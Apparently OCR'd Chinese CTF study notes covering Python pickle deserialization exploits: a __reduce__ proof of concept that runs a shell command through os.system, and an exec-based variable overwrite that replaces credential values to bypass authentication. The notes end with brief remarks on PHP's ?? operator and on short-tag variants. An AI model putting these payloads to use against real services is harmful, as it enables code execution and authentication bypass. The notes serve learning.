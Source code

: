 ### 漏洞利用

#### 利用思路

- 任意代码执行或命令执行。
- 变量覆盖，通过覆盖一些凭证达到绕过身份验证的目的。

#### 初步认识：pickle EXP的简单demo

```
import pickle
import os

class genpoc(object):
    def __reduce__(self):
        s = """echo test >poc.txt"""  # 要执行的命令
        return os.system, (s,)        # reduce函数必须返回元组或字符串

e = genpoc()
poc = pickle.dumps(e)

print(poc) # 此时，如果 pickle.loads(poc)，就会执行命令
```

- 变量覆盖

```
import pickle

key1 = b'321'
key2 = b'123'
class A(object):
    def __reduce__(self):
        return (exec,("key1=b'1'\nkey2=b'2'",))

a = A()
pickle_a = pickle.dumps(a)
print(pickle_a)
pickle.loads(pickle_a)
print(key1, key2)
```

## php中??的作用

```
$a??$b;
$a是不是null，如果不为null，则返回$a，否则返回$b;
```



## php短标签

```
php短标签
 
<? echo '123';?>  #前提是开启配置参数short_open_tags=on
<?=(表达式)?>  等价于 <?php echo (表达式)?>  #不需要开启参数设置
<% echo '123';%>   #开启配置参数asp_tags=on，并且只能在7.0以下版本使用
<script language="php">echo '123'; </script> #不需要修改参数开关，但是只能在7.0以下可用。
 
```

